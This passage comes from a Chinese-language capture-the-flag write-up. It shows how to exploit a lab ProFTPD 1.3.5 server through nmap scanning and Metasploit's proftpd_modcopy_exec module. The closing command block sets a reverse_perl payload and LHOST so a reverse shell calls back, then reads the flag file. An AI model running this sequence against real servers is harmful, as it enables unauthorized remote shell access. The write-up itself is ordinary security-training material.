剩下就是工具使用，如果有寫課堂作業應該知道基本的操作方式..吧XD

參數的設定上 RHOST 目標IP為 nmap 掃出來的 172.30.0.2，SITEPATH 為題目描述的 `/var/www/html/`，這題還需要設定 payloads... 而且並不是每一組 payload 都能成功需要一點運氣，不過數量也不多把 payload 全部戳一遍也蠻快der。
![ ](./ProFTPD/pic/03.png)


設定完 payload 後記得要再確認一次 options，把 LHOST 補上"攻擊用主機"，以便打過去的 reverse shell 才能順利彈回來，若攻擊成功就能拿到 FTP Server 的 shell，剩下就是把 flag 撈出來，結束。
![ ](./ProFTPD/pic/04.png)



```shell
$ ifconfig #查看當前主機ip: 172.30.0.3
$ nmap 172.30.0.0/24 #掃區網，找到 FTP 主機(ip 172.30.0.2, port 21)
$ nmap -sV -p 21 172.30.0.2 #查看剛主機細部資訊，發現是ProFTPD 1.3.5


$ msfconsole
msf5 > search ProFTPD 1.3.5
msf5 > use unix/ftp/proftpd_modcopy_exec
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > show options
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOST <target_ip>
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH <target_directory>
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > show payloads
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set set payload cmd/unix/reverse_perl

msf5 exploit(unix/ftp/proftpd_modcopy_exec) > show options
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST <localhost_ip>
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > exploit

(reverse shell)
ls 
ls _backup
cat _backup/f1aaag.txt
```





